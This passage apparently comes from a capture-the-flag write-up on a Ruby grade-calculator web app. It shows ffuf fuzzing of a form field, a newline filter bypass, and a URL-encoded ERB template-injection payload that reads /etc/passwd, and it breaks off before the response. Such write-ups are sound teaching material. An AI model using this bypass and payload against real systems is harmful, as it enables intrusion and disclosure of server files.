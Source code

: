 Eventually I discovered that using `%0a` (newline) allows a bypass of the filter. `category1=a%0a%1` returns an error string `Invalid query parameters: invalid %-encoding (a%0a%1)`, which is a Ruby error.

I try fuzzing for more bad characters.

```console
$ ffuf -w /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt -request req -request-proto http
...
________________________________________________
 :: Method           : POST
 :: URL              : http://t/weighted-grade-calc
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt
 :: Header           : Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
 :: Header           : Host: t
 :: Header           : Cache-Control: max-age=0
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Referer: http://t/weighted-grade
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Header           : Connection: close
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Origin: http://t
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Data             : category1=aFUZZ&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
...
```

And get one that triggers "Internal Server Error":

```console
..%c0%af                [Status: 500, Size: 30, Words: 3, Lines: 1, Duration: 123ms]
```

After some fiddling it's just the `%c0` (`À`) character that triggers the error. Ultimately this approach was a deadend for me.

But, URL-encoding `<%=File.read("/etc/passwd")%>` and sending it after `0x0a` triggers a file inclusion vulnerability:

Request parameters: `category1=a%0a%3c%25%3d%46%69%6c%65%2e%72%65%61%64%28%22%2f%65%74%63%2f%70%61%73%73%77%64%22%29%25%3e&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20`

Response:
